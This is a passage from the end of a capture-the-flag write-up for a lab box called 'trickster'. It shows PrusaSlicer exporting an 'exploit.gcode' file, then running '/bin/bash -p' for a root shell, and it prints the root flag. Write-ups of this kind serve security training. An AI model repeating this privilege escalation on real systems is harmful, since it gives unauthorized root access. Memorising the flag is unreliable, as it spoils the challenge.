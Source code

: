 ```console
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Generating skirt and brim
90 => Exporting G-code to /tmp/exploit.gcode
Slicing result exported to /tmp/exploit.gcode
```

Get the ```/bin/bash``` of root

```console
adam@trickster:/opt/PrusaSlicer$ /bin/bash -p
bash-5.1#
```
WE ARE ROOT NOW !! 

The root flag is ```96320d5777db52741436c668e47c94c8```

# Box Rooted 

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241025_trickster_boxroot.png)
